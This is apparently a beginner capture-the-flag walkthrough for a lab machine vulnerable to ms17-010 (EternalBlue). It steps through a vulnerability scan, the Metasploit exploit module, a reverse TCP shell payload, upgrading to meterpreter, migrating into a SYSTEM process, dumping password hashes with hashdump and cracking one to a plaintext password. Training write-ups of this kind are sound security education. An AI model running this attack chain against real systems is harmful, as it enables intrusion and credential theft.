 # Task 1 Recon

Scan and learn what exploit this machine is vulnerable to. Please note that this machine does not respond to ping (ICMP) and may take a few minutes to boot up. This room is not meant to be a boot2root CTF, rather, this is an educational series for complete beginners. Professionals will likely get very little out of this room beyond basic practice as the process here is meant to be beginner-focused.  

### No.1 Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

Ans: 

No answer needed.

### No. 2 How many ports are open with a port number under 1000?

Run this Nmap script to answer this question and question 3: Nmap -sV -sC --script vuln [target_IP] 

Ans: 3

### No.3 What is this machine vulnerable to? (Answer in the form of: ms??-??, ex: ms08-067)

Ans: ms17-010

# Task 2 Gain Access 

Exploit the machine and gain a foothold.

### No. 4 Start Metasploit

Ans: No answer needed

### No. 5 Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

Search "ms17 in the msfconsole

Ans: exploit/windows/smb/ms17_010_eternalblue

### No. 6 Show options and set the one required value. What is the name of this value? (All caps for submission)

Ans: RHOSTS

#### Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

#### 'set payload windows/x64/shell/reverse_tcp'

### No. 7 With that done, run the exploit!

Ans: No answer needed

### No. 8 Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

Ans: No answer needed

---

# Task 3 Escalate

Escalate privileges, learn how to upgrade shells in metasploit.


### No. 9 If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

Google how to convert a shell to meterpreter

Ans: post/multi/manage/shell_to_meterpreter

### No. 10 Select this (use MODULE_PATH). Show options, what option are we required to change?

Use the module in the previous answer and run the show options command

Ans: SESSION

### No. 11 Set the required option, you may need to list all of the sessions to find your target here. 

Run the "sessions" command to see running background sessions. Next step will be to SET the SESSION value to the desired session.

Ans: No answer needed

### No. 12 Run! If this doesn't work, try completing the exploit from the previous task once more.

Ans: No answer needed

### No. 13 Once the meterpreter shell conversion completes, select that session for use.

Ans: No answer needed

### No. 14 Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

Ans: No answer needed

### No. 15 List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

Ans: No answer needed

### No. 16 Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 

Ans: No answer needed

---

# Task 4 Cracking

Dump the non-default user's password and crack it!

### No. 17 Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

Ans: Jon

### No. 18 Copy this password hash to a file and research how to crack it. What is the cracked password?

Use Crackstation.net

Ans: alqfna22

---

# Task 5 Find Flags

Find the three flags planted on this machine. These are not traditional flags, rather, they're meant to represent key locations within the Windows system. Use the hints provided below to complete this room!

### No. 19 Flag1? This flag can be found at the system root. 

Ans: Cd to the sytem root

### No. 20 Flag2? This flag can be found at the location where passwords are stored within Windows. *Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen. 

Ans: Cd back to the /windows/System32 directory and check the Config directory

### No. 21 flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

Ans: Check the Admin account documents (admin is not the name of the user account)

---

# References
- 

---

# Tools Used
- Nmap
- Metasploit
- Crackstation
